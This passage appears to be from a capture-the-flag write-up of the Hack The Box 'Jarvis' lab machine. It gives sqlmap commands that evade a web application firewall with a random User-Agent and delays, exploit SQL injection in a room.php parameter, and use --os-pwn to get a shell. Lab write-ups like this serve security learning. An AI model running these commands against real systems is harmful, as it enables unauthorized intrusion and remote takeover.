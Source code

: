 To bypass the WAF, I changed the User-Agent header to a random header and added a delay when scanning with SQLmap:

`sqlmap -u http://jarvis.htb/room.php?cod=1 -p cod --delay 2 --random-agent`

![](/assets/images/htb-writeup-jarvis/sql2.png)

sqlmap found 3 type of SQL injections

- boolean-based blind
- time-based blind
- UNION query

By default, sqlmap will use the union query since it's much faster than the other two.

We easily get a shell using the `--os-pwn` option in sqlmap:

`sqlmap -u http://jarvis.htb/room.php?cod=1 -p cod --delay 2 --random-agent --os-pwn`

![](/assets/images/htb-writeup-jarvis/met1.png)
